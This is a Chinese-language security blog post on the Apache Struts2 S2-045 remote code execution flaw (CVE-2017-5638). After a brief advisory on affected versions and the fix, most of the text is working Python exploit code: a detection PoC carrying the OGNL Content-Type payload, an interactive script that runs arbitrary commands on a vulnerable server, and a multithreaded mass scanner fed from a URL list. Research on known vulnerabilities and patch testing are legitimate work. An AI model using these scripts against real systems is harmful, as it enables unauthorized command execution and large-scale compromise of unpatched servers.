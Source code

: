 ```yaml
---
title: Struts2_045漏洞
date: 2017-03-07 13:57:32
comments: true
tags: struts2
categories: web安全
---
```

<blockquote class="blockquote-center">Struts2是个好东西</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*


　　Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。
<!--more -->
漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞进而执行系统命令。
风险等级：高风险。
漏洞风险：黑客通过利用漏洞可以实现远程命令执行。
影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。
安全版本：Struts 2.3.32或2.5.10.1。
修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。

更多参考：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

### POC
```bash
#! -*- encoding:utf-8 -*-
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

```

### Poc_Cmd
```bash
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url,content="echo nMask"):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+content+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

	while 1:
		con=raw_input("[cmd]>>")
		print poc(url,content=con)
```
运行结果：
```bash
>python s2_045_cmd.py http://xxx.com/?a.action

[Loopholes exist] http://xxx.com/?a.action

[cmd]>>ls
example1
example2
```

### 多线程批量检测

```bash
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
import threading

def poc(url):
	register_openers()
	datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
	header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
	header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
	try:
	    request = urllib2.Request(url,datagen,headers=header)
	    response = urllib2.urlopen(request,timeout=5)
	    body=response.read()
	except:
		body=""

	if "nMask" in body:
		print "[Loopholes exist]",url
		f.write(url+"\n")
	else:
		print "Loopholes not exist",url

if __name__=="__main__":
	'''
	url.txt为待检测url列表
	result.txt为检测完输出结果文件
	'''
	f=open("result.txt","a")
	url_list=[i.replace("\n","") for i in open("url.txt","r").readlines()]
	for url in url_list:
		threading.Thread(target=poc,args=(url,)).start()
		while 1:
			if(len(threading.enumerate())<50):
				break
```
POC下载地址：[https://github.com/tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)

更多检测脚本，敬请期待......

欲知Struts2-046漏洞，参考：[struts2-046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)

转载请说明出处:[Struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
本文地址：http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/